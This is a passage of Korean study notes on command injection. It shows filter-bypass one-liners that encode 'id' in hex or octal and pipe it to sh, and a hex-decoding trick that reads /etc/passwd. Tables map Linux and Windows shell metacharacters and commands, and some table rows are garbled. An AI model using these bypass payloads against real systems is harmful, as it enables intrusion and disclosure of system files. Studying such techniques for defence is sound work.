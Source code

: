     - EX2) id 문자열 필터링 우회
        
        ```python
        echo -e "\x69\x64" | sh
        echo $'\151\144'| sh
        X=$'\x69\x64'; sh -c $X
        ```
        
    - EX3) /etc/passwd 문자열 우회
        
        ```python
        cat `xxd -r -p <<< 2f6574632f706173737764`
        ```
        

## Command Injection for Windows

### 메타 문자 및 명령어

- 메타 문자

| Linux | Windows (cmd / PowerShell) | 설명 |
| --- | --- | --- |
| `-A, --A` | `/c` | 커맨드 라인 옵션 |
| `$PATH` | `%PATH%` | 환경 변수 |
| `$ABCD` | `$ABCD` (PowerShell only) | 쉘 변수 |
| `;` | `&` (cmd only), `;` (PowerShell only) | 명령어 구분자 |
| `echo $(id)` | `for /f "delims=" %a in ('whoami') do echo %a` | 명령어 치환 |
| `> /dev/null` | `> NUL` (cmd only), ` | Out-Null` (PowerShell only) |
| `command |  | true` |
- 명령어

| Linux | Windows | 설명 |
| --- | --- | --- |
| `ls` | `dir` | 디렉토리(폴더) 파일 목록 출력 |
| `cat` | `type` | 파일 내용 출력 |
| `cd` | `cd` | 디렉토리(폴더) 이동 |
| `rm` | `del` | 파일 삭제 |
| `mv` | `move` | 파일 이동 |
| `cp` | `copy` | 파일 복사 |
| `ifconfig` | `ipconfig` | 네트워크 설정 |
| `env`, `export` | `set` | 환경변수 설정 |
